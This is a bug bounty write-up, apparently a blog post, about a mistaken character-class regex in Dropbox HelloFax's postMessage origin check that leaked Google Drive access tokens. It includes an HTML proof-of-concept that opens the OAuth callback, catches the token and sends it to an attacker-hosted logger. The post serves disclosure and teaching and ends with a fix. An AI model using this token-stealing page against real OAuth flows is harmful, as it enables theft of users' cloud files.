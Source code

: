 ```yaml
---
layout: post
title: Dropbox bug bounty - Watch your RegEx ! Exploiting PostMessage bug to leak GDrive tokens ! 
---
```


![flying-dog-3058204_1280](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/3c5d5bfb-95e0-4efa-bf77-56398182dfa5)

## TL;DR
In this blog post we will be discussing how minor validation issues in your regular expression patterns could lead to major security issues, the Dropbox's origin validation in the PostMessage function was misconfigured leading to GDrive tokens leak to third party origins !

## Introduction:
Dropbox's HelloFax offers documents management services to its users, particularly faxes:

![manage-documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/efba38f8-e7de-4ce6-a9a1-1832e34539c5)


Upon clicking on Send Fax to select your documents to be faxed, the following page will be shown:

![Fax-Documents](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/dce12a57-af39-4eb2-9f9a-b369ebcee2bd)


Documents could be uploaded either from our device or by integrating a third party service such as **Google Drive**, Upon clicking on the google drive icon, an OAuth window will pop up:

![google-drive-oauth](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/21804b65-d6d2-40cd-94f1-53a56618bdde)

- **NOTE:** whenever you see a window popup especially in OAuth integrations keep in mind that there is a possibility of using PostMessage functions, thus bringing other security issues to the table ! it isn't the case every time but keep it in mind when testing such applications !

After granting access in behalf of the user, Google will authorize the OAuth request and send the **authorization code** using the following GET request:

```
GET /home/googleNewFile?state=<state>&code=<authorization_code>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none HTTP/1.1
Host: app.hellofax.com
Cookie: <COOKIES>
```

The application hosted on `app.hellofax.com` will take the `authorization code` and exchanges it with access token, in our case it's a **Gdrive Access Token** in order to access user's **Google Drive** documents and files with the permissions predefined in the `scope` parameter, the whole process is explained in the following chart:

![authorization-code](https://github.com/mdakh404/Algorithms-Data-Structures/assets/77294440/9023ebaa-48ed-4c90-81f5-56e94195bda2)

After exchanging the **code** with a **GDrive access token**; The following response will be sent:

```
<script type="text/javascript" nonce="Bg2IcOtuFadT8UofntcBuA6M">
    let gdriveAccessToken = "<gdrive_access_token>";
    let gdriveReadonlyOAuthSucceed = "true";

    var resultObj = {
        gdriveAccessToken: gdriveAccessToken,
        gdriveReadonlyOAuthSucceed: gdriveReadonlyOAuthSucceed,
        type: "gdrive:readonlyOAuthSucceed", // needed to pass a message to the parent window
    };

    if (window.opener) {
        /**
         * Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)
         */
        let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];

        window.opener.postMessage(resultObj, targetOrigin);
    }
</script>
```

The **GDrive access token** is assigned to a varibale with the name `gdriveAccessToken` which is also included within an object with the name `resultObj`, the application checks if there is an opener window, the comment `//Ensures we're only sending GDrive tokens to other hellosign domains (dev, qa, staging, prod)` shows that the validation on the origin will assure that the **GDrive access token** will be sent only to permitted origins (hellosign trusted domains) and **NOT** to third party origins (untrusted), to apply the validation functionality; the application used to match the opener window's origin with the following regular expression pattern:

```
 let targetOrigin = window.opener.location.href.match(/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/)[0];
```

It checks that the opener window's origin matches the following pattern:

```
/^https:\/\/app\.[hellosign|dev-|qa-|staging-][^\/]+/
```

Can you catch the error above ? Could you found it ? Great !

The developer tried to match the second-level domain with the domain names [hellosign-dev-qa-staging-] but he employed the wrong operator ! the character class `[]` will accept every character included there: `h, e, l, o, s, i, g, n, |, d, e, v, -, etc..` which offers to the attacker a flexibility in selecting the origin that will get the **Gdrive access token**, the pattern would accept `https://app.dev, https://app.hellosign, https://app.qa, https://app.staging` as trusted origins.

Therefore a PostMessage function will be invoked to send the `resultObj` that contains the **Gdrive token** to the opener window's origin validated by an insecure regular expression pattern, it could be  `app.dev` for example !

```
window.opener.postMessage(resultObj, targetOrigin);
```

## Time to Exploit: Bringing your brightest photos in Google Drive to the table !

To exploit this issue, the attacker must get a valid **authorization code** and a domain name with the origin https://app.dev for example that hosts the following exploit code:

```
<!DOCTYPE html>
<html>
<head>
    <title>PostMessage PoC</title>
</head>
<body>

    <script>

        window.open("https://app.hellofax.com/home/googleNewFile?state=<VALID_STATE>&code=<VALID_AUTHORIZATION_CODE>&scope=email+profile+openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fdrive.readonly+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile&authuser=1&prompt=none");

        window.addEventListener('message', (event) => {

            window.location.href = '/logger.php?gdrive_access_token=' + event.data.gdriveAccessToken; 

        })


    </script>

</body>
</html>
```

- **Impact:** Getting the **Gdrive access token** will give the attacker a scoped access to your Google Drive files including your holiday photos, your documents, and of course some information per the `email+userinfo.profile information` scope !

### Key Points:
- **For bug hunters/security professionals:** OAuth testing is one of my favorite parts in web security, whenever your find your screen filled with window popups that's a good indicator that you might face a PostMessage configuration, tokens/secrets/codes transmitted between windows need a secure way to travel, developers think that PostMessage is the right plane ! Stay tuned !
- **For developers:** I love regular expressions, a real art that everyone should respect, but I still support the classic method, an array with permitted origins and a strict string comparison will be enough to deliver the needed functionality.
- **For Internet users:** Google does a great job to secure your files/documents, but attackers have their weapons too ! that small click on your screen will be enough to pave attackers's way to your infos, make sure that you give your click to the right application !

Thanks for reading, if you have any question regarding this blog post please feel free to ping me on twitter `@mdakh404_`.

